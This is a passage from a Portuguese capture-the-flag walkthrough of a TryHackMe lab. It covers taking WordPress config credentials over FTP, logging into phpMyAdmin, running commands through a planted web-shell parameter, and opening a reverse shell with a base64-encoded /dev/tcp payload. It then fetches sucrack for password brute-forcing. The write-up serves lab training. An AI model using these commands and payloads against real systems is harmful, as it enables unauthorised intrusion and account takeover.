 ```shell
ftp> get wp-login.php
```

e para realizar o upload do arquivo

```shell
ftp> put wp-login.php
```

Agora no navegador, iremos chamar a seguinte url:

```shell
http://adana.thm/wp-login.php?C=pwd;
```

Não aconteceu nada, então tem algum detalhe, olhando novamente nos arquivos, existe um arquivo muito interessante o **wp-config.php**, iremos baixar ele para verificar se existe algo:

```shell
> get wp-config.php
```

dessa forma o arquivo é baixado para o nosso computador. Esse arquivo traz informações de acesso ao painel do php admin. Colentando essas informações e usando a url encontrada pelo nuclei, iremos acessar em nosso navegador:

```shell
http://10.10.15.189/phpmyadmin/ 
```

iremos procurar por  **wp-options** em **phpmyadmin1**. Tem a informação de um subdomínio (`**********`), iremos usar isso, dessa forma, será necessário editar novamente o **hosts** do kali. Coloque o ip da máquina e o subdomínio no arquivo hosts.

Agora sim, iremos novamente acessar a home, só que dessa vez, passando o subdomínio:

```shell
http://**********.adana.thm/index.php?C=ls
```

note que será listado dos os arquivos, então podemos criar um reverse shell, na máquina linux rode o netcat

```shell
nc -lnvp 1234
```

use o site: https://www.revshells.com/ para criar o seu reverse shell, no meu caso

```shell
http://**********.adana.thm/index.php?C=echo+"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTcuODUuMTEwLzEyMzQgMD4mMQ=="+|+base64+-d+|+bash
```

Conseguimos realizar o reverse shell, para achar a primeira flag vá em /var/www/html.

Iremos usar o método de força bruta para ter acesso ao usuário, para isso iremos usar uma ferramenta **sucrack**. Para isso iremos realizar o download em nossa máquina linux e depois subir o servidor em python.

```shell
wget http://archive.ubuntu.com/ubuntu/pool/universe/s/sucrack/sucrack_1.2.3-5_amd64.deb
```
